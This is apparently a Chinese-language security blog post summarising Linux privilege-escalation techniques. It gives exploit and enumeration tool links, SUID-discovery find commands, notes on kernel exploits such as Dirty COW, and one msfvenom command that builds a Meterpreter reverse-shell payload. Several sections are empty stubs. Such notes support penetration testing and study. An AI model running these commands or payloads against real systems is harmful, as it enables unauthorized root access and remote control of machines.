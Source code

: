 Title: Linux环境的下提权方式总结
Date: 2018-06-15 03:20
Modified: 2018-06-15 03:20
Category: 安全
Tags: Linux
Slug: O6
Authors: nJcx
Summary: Linux环境的下提权方式总结~

#### 工具


工具镇楼：

```bash
https://github.com/SecWiki/linux-kernel-exploits.git
https://github.com/offensive-security/exploitdb.git
https://github.com/mzet-/linux-exploit-suggester.git
https://github.com/InteliSecureLabs/Linux_Exploit_Suggester.git
https://github.com/jondonas/linux-exploit-suggester-2.git
https://github.com/belane/linux-soft-exploit-suggester.git
linuxprivchecker： https://www.securitysift.com/download/linuxprivchecker.py
http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```

![linux提权](../images/WechatIMG169.png)


#### 内核漏洞提权

 利用比如脏牛漏洞提权(CVE-2016-5195) overlayfs （CVE-2015-1328）
，等等

上工具linux-exploit-suggester

![linux提权](../images/WechatIMG180.jpeg)


用 脏牛漏洞提权(CVE-2016-5195) 测试一下 

![linux提权](../images/cow1.png)


用 overlayfs（CVE-2015-1328） 测试一下 

![linux提权](../images/WechatIMG182.jpeg)
 


#### SUID 提权


SUID是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。也就是如果ROOT用户给某个可执行文件加了S权限，那么该执行程序运行的时候将拥有ROOT权限。

以下命令可以发现系统上运行的所有SUID可执行文件

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;

```
配合进行提权

```bash
https://gtfobins.github.io/
```

下面做个演示




#### 环境变量劫持提权

如果有一个程序具有ROOT权限，它运行的时候需要调用其他程序，那么我们通过环境变量来挟持它运行我们的payload。我们的payload将拥有ROOT权限。



#### 配置错误提权


####  其他工具提权



OpenSMTPD 提权

Exim 4.87 / 4.91 提权

Ubuntu 18.04 - 'lxd'  提权

Serv-U FTP Server  提权

systemtap 1.1-3.el5  提权

Chkrootkit 0.49  提权

OSSEC 2.8 - 'hosts.deny'  提权

Docker Daemon 	提权


MSF 使用Chkrootkit 0.49  提权

```bash

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.251.133 LPORT=443 -a x64 --platform linux -f elf > payload.elf 

```

![linux提权](../images/msfchk.png)

![linux提权](../images/msfchk1.png)
 



 
